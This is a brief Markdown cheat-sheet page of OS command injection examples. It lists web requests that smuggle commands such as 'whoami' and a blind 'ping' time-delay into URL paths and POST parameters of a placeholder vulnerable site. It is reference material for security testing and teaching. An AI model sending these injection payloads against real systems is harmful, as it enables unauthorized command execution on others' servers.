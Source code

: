```yaml
---
title: Command Injection Examples
desc: Examples of OS Command Injection.
tags: [CommandInjection, Web]
alts: []
website:
render_with_liquid: false
---
```


## HTTP GET Request

```html
http://vulnerable.com/api/cmd/whoami
http://vulnerable.com/command/whoami
```

<br />

## HTTP POST Request

```html
POST /product/stock HTTP/1.1
...

productId=1&stockId=1|whoami
```

<br />

## HTTP POST Request (Blind Command Injection (time delay))

```html
POST /feedback/submit HTTP/1.1
...

name=michael&email=michael@example.com||ping+-c+10+127.0.0.1||&message=hello
```